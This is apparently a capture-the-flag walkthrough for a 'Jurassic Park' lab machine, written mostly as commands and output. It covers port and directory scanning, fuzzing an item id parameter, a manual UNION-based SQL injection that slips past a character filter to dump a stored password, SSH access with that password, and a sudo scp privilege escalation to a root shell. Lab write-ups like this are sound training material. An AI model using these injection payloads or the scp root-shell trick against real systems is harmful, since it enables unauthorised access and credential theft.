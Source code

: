 # Jurassic Park - Hard

* After mapping ```jurassic.thm``` to given IP, do a nmap scan - ```nmap -T4 -p- -A -Pn -v jurassic.thm```:

  * 22/tcp - ssh - OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
  * 80/tcp - http - Apache httpd 2.4.18 ((Ubuntu))

* The page at port 80 for 'Jarassic Park' links to a shop page at '/shop.php'

* We have a '/robots.txt', but it just says 'Wubbalubbadubdub'

* We also have a lot of files under '/assets' that can be checked; while we do that we can do initial directory scanning:

  ```sh
  gobuster dir -u http://jurassic.thm -w /usr/share/wordlists/dirb/big.txt -x txt,php,html,bak -t 25
  ```

* The files under '/assets' seem to include a few clips and images, but nothing that gives a hint

* At '/shop.php', we have 3 packages and clicking on each of them leads to '/item.php' with the ID parameter - for example, ```http://jurassic.thm/item.php?id=2```. We can do some fuzzing here:

  ```sh
  # create a list of numbers from 0-9999 to start with
  for num in {0..10000};do echo $num >> numbers.txt;done

  # we can fuzz the value of the id parameter with numbers first
  ffuf -w numbers.txt -u "http://jurassic.thm/item.php?id=FUZZ"

  # filter out false positives
  ffuf -w numbers.txt -u "http://jurassic.thm/item.php?id=FUZZ" -fs 81
  ```

* From the directory scanning, we get a few interesting pages - '/delete' and '/requests.txt'

* '/delete' gives a hint about MySQL password and Ubuntu, but this is not useful right now for getting the initial foothold. '/requests.txt' just says 0

* On fuzzing with numbers for the 'id' parameter, we get two additional pages -

  * ```http://jurassic.thm/item.php?id=5``` - this page mentions the string ```' # DROP - username @ ----``` - this could be a clue for SQLi
  * ```http://jurassic.thm/item.php?id=100``` - this page does not include any clue

* As we have been given a SQLi clue, we can continue fuzzing with similar wordlists:

  ```sh
  ffuf -w /usr/share/seclists/Fuzzing/SQLi/quick-SQLi.txt -u "http://jurassic.thm/item.php?id=FUZZ" -fs 81

  # filtering out more false positives
  ffuf -w /usr/share/seclists/Fuzzing/SQLi/Generic-SQLi.txt -u "http://jurassic.thm/item.php?id=FUZZ" -fs 81,1944

  ffuf -w /usr/share/seclists/Fuzzing/SQLi/Generic-BlindSQLi.fuzzdb.txt -u "http://jurassic.thm/item.php?id=FUZZ" -fs 81,1944
  ```

* On multiple SQLi attempts, we get a GIF with the messages "access: permission denied" and "you didn't say the magic word!"; the page also mentions ```sqlmap``` at the end

* For some payloads such as ```&``` and ```admin"/*```, we get SQL errors included in the page; furthermore, payloads like ```(sqlvuln)``` and ```truncate``` indicate a ```WHERE``` clause is being used

* We can also try ```sqlmap``` since it is mentioned in the page:

  ```sh
  sqlmap -u 'http://jurassic.thm/item.php?id=1' --batch --dump --risk=3 --level=5
  # this gives us "reflective value(s) found and filtering out" message
  # we need to use some more filters

  sqlmap -u 'http://jurassic.thm/item.php?id=1' -p id --batch --dump --risk=3 --level=5 --not-string="You have an error" --not-string="MAGIC WORD"
  # this also does not work
  ```

* ```sqlmap``` does not work as expected due to WAF likely; from the previous checks, as the characters ```' # DROP - username @ ----``` are blocked, we cannot use them in our payloads. We can take a manual approach:

  ```sh
  curl 'http://jurassic.thm/item.php?id="'
  # using double quote, we get SQL syntax error
  # we can build our payload on this

  curl 'http://jurassic.thm/item.php?id=1"'

  curl 'http://jurassic.thm/item.php?id=-1"'
  # gives usual error

  curl 'http://jurassic.thm/item.php?id=1\"'

  curl 'http://jurassic.thm/item.php?id=1%20and%200'
  # URL encoded payload '1 and 0"'
  # this gives a different error message - 'No results found...'

  # since hyphens cannot be used, we can try to use double-quotes again
  # and add another payload

  curl 'http://jurassic.thm/item.php?id="%20OR%201=1"%20OR%201=1'
  # this prints the '/item.php' page itself, instead of the error
  # indicating we can build on this payload further

  # we need to find the number of columns first

  curl 'http://jurassic.thm/item.php?id="%20OR%201=1"%20UNION%20SELECT%201'
  # prints error message
  # The used SELECT statements have a different number of columns

  curl 'http://jurassic.thm/item.php?id="%20OR%201=1"%20UNION%20SELECT%201,2'
  # keep increasing the numbers

  curl 'http://jurassic.thm/item.php?id="%20OR%201=1"%20UNION%20SELECT%201,2,3,4,5'
  # this gives '/item.php'
  # so we know the table has 5 columns

  # we need to find more info about the DB and the table
  # we can start by checking information_schema table

  # payload - " OR 1=1" UNION SELECT 1,2,3,table_schema,table_name FROM INFORMATION_SCHEMA.tables
  curl 'http://jurassic.thm/item.php?id=%22%20OR%201=1%22%20UNION%20SELECT%201,2,3,table_schema,table_name%20FROM%20INFORMATION_SCHEMA.tables'
  # this mentions 'x$waits_global_by_latency' as table_name and 'sys' as table_schema

  # to identify version
  # payload - " OR 1=1" UNION SELECT 1,2,3,version(),table_name FROM INFORMATION_SCHEMA.tables
  curl 'http://jurassic.thm/item.php?id=%22%20OR%201=1%22%20UNION%20SELECT%201,2,3,version(),table_name%20FROM%20INFORMATION_SCHEMA.tables'
  # we get the version 'ubuntu16.04'

  # to identify database
  # payload - " OR 1=1" UNION SELECT 1,2,3,database(),table_name FROM INFORMATION_SCHEMA.tables
  curl 'http://jurassic.thm/item.php?id=%22%20OR%201=1%22%20UNION%20SELECT%201,2,3,database(),table_name%20FROM%20INFORMATION_SCHEMA.tables'
  # shows DB 'park'

  # to identify tables
  # payload - " OR 1=1" UNION SELECT 1,2,3,database(),table_name FROM INFORMATION_SCHEMA.tables WHERE table_schema=database()
  curl 'http://jurassic.thm/item.php?id=%22%20OR%201=1%22%20UNION%20SELECT%201,2,3,database(),table_name%20FROM%20INFORMATION_SCHEMA.tables%20WHERE%20table_schema=database()'
  # this gives table name 'users'

  # to identify columns
  # payload - " OR 1=1" UNION SELECT 1,2,3,column_name,table_name FROM INFORMATION_SCHEMA.columns WHERE table_schema=database() and table_name="users"
  curl 'http://jurassic.thm/item.php?id=%22%20OR%201=1%22%20UNION%20SELECT%201,2,3,column_name,table_name%20FROM%20INFORMATION_SCHEMA.columns%20WHERE%20table_schema=database()%20and%20table_name=%22users%22'
  # this gives column name 'password'

  # to get 'password' data
  # payload - " OR 1=1" UNION SELECT 1,2,3,password,5 FROM users
  curl 'http://jurassic.thm/item.php?id=%22%20OR%201=1%22%20UNION%20SELECT%201,2,3,password,5%20FROM%20users'
  # this gives password 'ih8dinos'
  ```

* Now, according to given context, we have Dennis as user. So we can attempt SSH login using the password found from SQLi:

  ```sh
  ssh dennis@jurassic.thm
  # we are able to SSH

  pwd
  # /home/dennis

  ls
  # get flag1

  cat test.sh
  # we have a script that prints flag5 from /root
  # but this would not work because we do not have the permission

  less .bash_history
  # this gives us flag3
  # also mentions 'sudo -l', 'scp' and transferring flag5 to other machines in the network

  sudo -l
  # we can run /usr/bin/scp as root

  less .viminfo
  # this mentions flag2 and flag4

  cat /boot/grub/fonts/flagTwo.txt
  # flag2

  # now we can try the exploit from GTFObins for scp
  
  TF=$(mktemp)

  echo 'sh 0<&2 1>&2' > $TF

  chmod +x "$TF"
  
  sudo /usr/bin/scp -S $TF x y:
  # this gives us root shell
  # get flag5 from /root
  ```
